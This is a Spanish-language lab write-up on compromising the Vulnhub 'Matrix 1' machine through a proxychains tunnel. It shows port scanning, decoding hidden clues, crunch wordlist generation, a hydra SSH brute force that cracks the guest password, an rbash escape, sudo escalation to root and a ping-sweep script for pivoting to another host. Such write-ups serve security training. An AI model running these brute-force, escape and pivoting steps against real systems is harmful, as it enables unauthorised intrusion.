



---
# Guía paso a paso de explotación:

## Información general

- **Nombre**: Matrix 11
- **Plataforma**: Vulnhub
- **Descarga**: [Matrix 1](https://www.vulnhub.com/entry/matrix-1,259/)
- **Nivel**: Media
- **IP**:  [Configuración de entorno](./Configuración%20de%20entorno.md)
- **Objetivo**: Obtener acceso root para pivotar por las diferentes redes del sistema


---

## Reconocimiento


Acción:

```bash
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -p{} --open -sT -n -Pn -v --min-rate 5000 192.168.100.132 2>&1 | grep "tcp open" 
```

Resultado:

```bash
22/tcp open  ssh
80/tcp open  http
31337/tcp open Elite
```

Explicación: se lanza un escaneo de puertos masivo y paralelo usando `seq` + `xargs -P 500` para iterar rápidamente por todos los puertos (1–65535) en 500 tareas concurrentes. Cada tarea ejecuta `nmap` para un único puerto (`-p{}`), pasando la conexión por `proxychains` porque el acceso a la red objetivo se realiza a través de un túnel (Aragog → Nagini).  

Opciones claves de `nmap` usadas: `--open` (solo mostrar puertos abiertos), `-sT` (TCP connect scan), `-n` (no DNS), `-Pn` (no ping previo), `-v` (verbose) y `--min-rate 5000` (velocidad mínima de paquetes para acelerar). La salida se filtra con `grep "tcp open"` para listar únicamente los puertos abiertos encontrados.

Acción:

```bash
 proxychains whatweb http://192.168.100.132:31337
```

Resultado:

```bash
http://192.168.100.132:31337 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[SimpleHTTP/0.6 Python/2.7.14], IP[192.168.100.132], JQuery, Python[2.7.14], Script[text/javascript], Title[Welcome in Matrix]
```

Explicación: investigamos el puerto `31337` y vemos que es una página web, la visitamos y ojeamos su código fuente





Acción:

```bash
echo ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg= | base64 -d; echo
```

Resultado:

```bash
echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
```

Explicación: al acudir al endpoint descubierto se nos descarga un archivo `http://192.168.100.132:31337/Cypher.matrix`

Acción:

```bash
cat Cypher.matrix
```

Resultado:

```bash
+++++ ++++[ ->+++ +++++ +<]>+ +++++ ++.<+ +++[- >++++ <]>++ ++++. +++++
+.<++ +++++ ++[-> ----- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]> +++.-
-.<++ +[->+ ++<]> ++++. <++++ ++++[ ->--- ----- <]>-- ----- ----- --.<+
+++++ ++[-> +++++ +++<] >++++ +.+++ +++++ +.+++ +++.< +++[- >---< ]>---
---.< +++[- >+++< ]>+++ +.<++ +++++ ++[-> ----- ----< ]>-.< +++++ +++[-
>++++ ++++< ]>+++ +++++ +.+++ ++.++ ++++. ----- .<+++ +++++ [->-- -----
-<]>- ----- ----- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ +.<++
+[->- --<]> ---.< ++++[ ->+++ +<]>+ ++.-- .---- ----- .<+++ [->++ +<]>+
+++++ .<+++ +++++ +[->- ----- ---<] >---- ---.< +++++ +++[- >++++ ++++<
]>+.< ++++[ ->+++ +<]>+ +.<++ +++++ ++[-> ----- ----< ]>--. <++++ ++++[
->+++ +++++ <]>++ +++++ .<+++ [->++ +<]>+ ++++. <++++ [->-- --<]> .<+++
[->++ +<]>+ ++++. +.<++ +++++ +[->- ----- --<]> ----- ---.< +++[- >---<
]>--- .<+++ +++++ +[->+ +++++ +++<] >++++ ++.<+ ++[-> ---<] >---- -.<++
+[->+ ++<]> ++.<+ ++[-> ---<] >---. <++++ ++++[ ->--- ----- <]>-- -----
-.<++ +++++ +[->+ +++++ ++<]> +++++ +++++ +++++ +.<++ +[->- --<]> -----
-.<++ ++[-> ++++< ]>++. .++++ .---- ----. +++.< +++[- >---< ]>--- --.<+
+++++ ++[-> ----- ---<] >---- .<+++ +++++ [->++ +++++ +<]>+ +++++ +++++
.<+++ ++++[ ->--- ----< ]>--- ----- -.<++ +++++ [->++ +++++ <]>++ +++++
+++.. <++++ +++[- >---- ---<] >---- ----- --.<+ +++++ ++[-> +++++ +++<]
>++.< +++++ [->-- ---<] >-..< +++++ +++[- >---- ----< ]>--- ----- ---.-
--.<+ +++++ ++[-> +++++ +++<] >++++ .<+++ ++[-> +++++ <]>++ +++++ +.+++
++.<+ ++[-> ---<] >---- --.<+ +++++ [->-- ----< ]>--- ----. <++++ +[->-
----< ]>-.< +++++ [->++ +++<] >++++ ++++. <++++ +[->+ ++++< ]>+++ +++++
+.<++ ++[-> ++++< ]>+.+ .<+++ +[->- ---<] >---- .<+++ [->++ +<]>+ +..<+
++[-> +++<] >++++ .<+++ +++++ [->-- ----- -<]>- ----- ----- --.<+ ++[->
---<] >---. <++++ ++[-> +++++ +<]>+ ++++. <++++ ++[-> ----- -<]>- ----.
<++++ ++++[ ->+++ +++++ <]>++ ++++. +++++ ++++. +++.< +++[- >---< ]>--.
--.<+ ++[-> +++<] >++++ ++.<+ +++++ +++[- >---- ----- <]>-- -.<++ +++++
+[->+ +++++ ++<]> +++++ +++++ ++.<+ ++[-> ---<] >--.< ++++[ ->+++ +<]>+
+.+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
+.+++ .---- ----. <++++ ++++[ ->--- ----- <]>-- ----- ----- ---.< +++++
+++[- >++++ ++++< ]>+++ .++++ +.--- ----. <++++ [->++ ++<]> +.<++ ++[->
----< ]>-.+ +.<++ ++[-> ++++< ]>+.< +++[- >---< ]>--- ---.< +++[- >+++<
]>+++ +.+.< +++++ ++++[ ->--- ----- -<]>- -.<++ +++++ ++[-> +++++ ++++<
]>++. ----. <++++ ++++[ ->--- ----- <]>-- ----- ----- ---.< +++++ +[->+
+++++ <]>++ +++.< +++++ +[->- ----- <]>-- ---.< +++++ +++[- >++++ ++++<
]>+++ +++++ .---- ---.< ++++[ ->+++ +<]>+ ++++. <++++ [->-- --<]> -.<++
+++++ +[->- ----- --<]> ----- .<+++ +++++ +[->+ +++++ +++<] >+.<+ ++[->
---<] >---- .<+++ [->++ +<]>+ +.--- -.<++ +[->- --<]> --.++ .++.- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ ++++[ ->+++ +++++ +<]>+ +++++ .<+++
[->-- -<]>- ----. <+++[ ->+++ <]>++ .<+++ [->-- -<]>- --.<+ +++++ ++[->
----- ---<] >---- ----. <++++ +++[- >++++ +++<] >++++ +++.. <++++ +++[-
>---- ---<] >---- ---.< +++++ ++++[ ->+++ +++++ +<]>+ ++.-- .++++ +++.<
+++++ ++++[ ->--- ----- -<]>- ----- --.<+ +++++ +++[- >++++ +++++ <]>++
+++++ +.<++ +[->- --<]> -.+++ +++.- --.<+ +++++ +++[- >---- ----- <]>-.
<++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ .++++ +++++ .<+++ +[->- ---<]
>--.+ +++++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- --.<+ +++++ ++[->
+++++ +++<] >+.<+ ++[-> +++<] >++++ .<+++ [->-- -<]>- .<+++ +++++ [->--
----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++ +++.< +++[-
>---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]>
+++.< +++[- >+++< ]>+++ .+++. .<+++ [->-- -<]>- ---.- -.<++ ++[-> ++++<
]>+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
.+.-- .---- ----- .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- -----
.<+++ +++++ [->++ +++++ +<]>+ +++++ +++++ ++++. ----- ----. <++++ ++++[
->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ ++++.
<+++[ ->--- <]>-- ----. <++++ [->++ ++<]> ++..+ +++.- ----- --.++ +.<++
+[->- --<]> ----- .<+++ ++++[ ->--- ----< ]>--- --.<+ ++++[ ->--- --<]>
----- ---.- --.<
```

Explicación: este leguaje es *brainfuck*

[Acudir a brainfuck-decode](https://www.dcode.fr/brainfuck-language)



Mensaje descifrado:

```bash
You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
```

Explicación: tenemos al usuario `guest` y una contraseña que requiere descifrar los dos últimos caracteres `k1ll0rXX`

Acción:

```bash
crunch 8 8 -t k1ll0r%@ > passwords
crunch 8 8 -t k1ll0r@% >> passwords
```

Explicación: creamos un archivo con todas las opciones posibles para caracteres y números (consulta `man crunch` para saber que otras combinaciones se pueden realizar)

Acción:

```bash
proxychains hydra -l guest -P passwords ssh://192.168.100.132 -t 20 -f 2>/dev/null
```

Resultado:

```bash
[22][ssh] host: 192.168.100.132   login: guest   password: k1ll0r7n
```

Explicación: aplicando fuerza bruta con **hydra** obtuvimos la contraseña `k1ll0r7n`

Acción:

```bash
proxychains ssh guest@192.168.100.132
```

Resultado:

```bash
guest@192.168.100.132's password: <k1ll0r7n>
Last login: Mon Aug  6 16:25:44 2018 from 192.168.56.102
guest@porteus:~$ whoami
-rbash: whoami: command not found
```

Explicación: `rbash` para evitar esto, nos conectamos mediante ssh solicitando una bash `proxychains ssh guest@192.168.100.132 bash` y luego [aplicar tratamiento de TTY](../Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

Acción:

```bash
ifconfig
```

Resultado:

```bash
eth125: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.130  netmask 255.255.255.0  broadcast 172.18.0.255
        inet6 fe80::20c:29ff:fe51:ed07  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:51:ed:07  txqueuelen 1000  (Ethernet)
        RX packets 9  bytes 1952 (1.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 2522 (2.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth126: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.132  netmask 255.255.255.0  broadcast 192.168.100.255
        inet6 fe80::20c:29ff:fe51:edfd  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:51:ed:fd  txqueuelen 1000  (Ethernet)
        RX packets 4755  bytes 358364 (349.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9994  bytes 4238023 (4.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Explicación: vemos que esta máquina conecta con otra interfaz de red `172.18.0.130`

Acción:

```bash
vi hostDiscovery.sh
chmod +x hostDiscovery.sh
./hostDiscovery
```

script:

```sh
#!/bin/bash

for i in $(seq 1 254); do
  timeout 1 bash -c "ping -c 1 172.18.0.$i" &>/dev/null && echo "[+] Host 172.18.0.$i - ACTIVO" &
done; wait
```

Resultado:

```bash
[+] Host 172.18.0.1 - ACTIVO
[+] Host 172.18.0.130 - ACTIVO
[+] Host 172.18.0.131 - ACTIVO
guest@porteus:~/prog$ 
```

Explicación: confirmamos la existencia de una nueva máquina (*Brainpan*) que ocupa la IP `172.18.0.131`

Acción:

```bash
sudo -l
sudo su
```

Resultado:

```bash
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
This mission is too important for me to allow you to jeopardize it.
Password: <k1ll0r7n>
root
```

Explicación: elevamos privilegios de forma sencilla al poder ejecutar como root cualquier comando con `sudo`

Acción:

```bash
proxychains scp hostDiscovery.sh root@192.168.100.132:/root/hostDiscovery.sh
chmod +x hostDiscovery.sh
./hostDiscovery
```

Resultado:

```bash
[+] Host 172.18.0.1 - ACTIVO
[+] Host 172.18.0.130 - ACTIVO
[+] Host 172.18.0.131 - ACTIVO
```

Explicación: nos transferimos o creamos de nuevo el script de reconocimiento, al usarlo detectamos una nueva red `172.18.0.131` (Brainpan)

[Ver Brainpan explotación](./Brainpan%20explotación.md)


---
